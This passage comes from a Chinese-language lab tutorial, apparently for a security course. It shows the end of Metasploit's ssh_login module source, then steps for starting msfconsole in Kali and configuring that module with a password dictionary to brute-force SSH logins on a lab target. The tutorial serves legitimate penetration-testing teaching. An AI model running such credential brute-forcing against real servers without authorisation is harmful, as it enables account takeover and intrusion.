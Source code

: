 ```
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
        invalidate_login(credential_data)
        :abort
      
      # 如果本次尝试的用户名及密码错误则打印相关信息并进行标识
      when Metasploit::Model::Login::Status::INCORRECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg => "Failed: '#{result.credential}'"
        end
        invalidate_login(credential_data)
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
      else
        invalidate_login(credential_data)
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
      end
    end
  end

end
```

### 3.2 启动 msfconsole

在 Kali 中执行下面的命令，进入 msfconsole：

```
# 打开终端 MSF

sudo msfconsole
```

### 3.3 使用的攻击模块

在 msfconsole 中执行后续的命令，攻击的逻辑与我们先前的实验完全一致：

1. `use` 命令使用攻击模块
2. `set` 命令配置参数
3. `show options` 查看所有参数
4. `exploit` 执行攻击

本步骤中，我们使用 `use` 命令选择 3.1 中提到的攻击脚本：

```
msf > use auxiliary/scanner/ssh/ssh_login
```

**注意：msfconsole 的提示符中增加了 `ssh_login` 信息。**

### 3.4 配置攻击模块

查看并配置攻击模块必要的参数，此处需要配置的有下面几方面信息：

1. rhosts 目标服务器列表，我们配置为 target
2. userpass_file 使用的密码字典文件，我们使用 metasploit-framework 内置的一个密码文件，在 3.1 中有介绍，大概有900多行，如果使用更大的字典文件，测试的时间将更长
3. verbose 设置为 false，避免输出大量的中间信息
